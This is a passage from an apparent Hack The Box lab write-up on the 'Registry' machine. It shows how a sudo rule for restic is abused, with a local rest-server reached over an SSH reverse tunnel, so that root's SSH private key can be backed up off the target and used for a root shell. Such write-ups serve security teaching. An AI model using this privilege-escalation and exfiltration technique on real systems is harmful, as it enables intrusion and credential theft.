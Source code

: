 {% highlight bash %}
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*

{% endhighlight %}

Great! The commands have almost no restrictions. The only switch I had to use was -r rest, which basically specified an URL for the restic HTTP API instance that’s going to store the backup. That might sound complicated, but all I had to do to start that server locally was to clone [this repository](https://github.com/restic/rest-server) and enter 2 commands. First, I started the server:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry/rest-server# rest-server --path ./root-files/ --no-auth --listen localhost:1337
Data directory: ./root-files/
Authentication disabled
Private repositories disabled
Starting server on localhost:1337

{% endhighlight %}

However, the backup repository was not initialized. I installed restic locally and used the following command to create an empty repository:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry# restic init -r rest:http://localhost:1337/
enter password for new repository: 
enter password again: 
created restic repository c2f11fd17a at rest:http://localhost:1337/

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
root@fury-battlestation:~/htb/blog/registry#

{% endhighlight %}

In case you are wondering, the password is simply ‘backup’. I had to access local port 1337 on a remote server, so I used SSH remote port forwarding:

{% highlight bash %}
ssh -R 1337:localhost:1337 bolt@registry.htb -i ~/.ssh/bolt_registry

{% endhighlight %}

The next step was to backup root’s SSH key to the remote repository (I first backed up root.txt, but then I realised I could get a shell by obtaining root’s id_rsa file). Unfortunately, restic does not allow users to provide passwords via command lines, and I didn’t have an interactive tty to write the password. The solution was simple: use the -p switch, which loads the password from a specified file. I created that file using the following commands:

{% highlight bash %}
bolt@bolt:~$ cd /tmp
bolt@bolt:/tmp$ echo 'backup' > pass.txt
bolt@bolt:/tmp$ chmod 777 pass.txt 
bolt@bolt:/tmp$ ls -lah pass.txt 
-rwxrwxrwx 1 bolt bolt 7 Dec 28 19:33 pass.txt
bolt@bolt:/tmp$ 

{% endhighlight %}
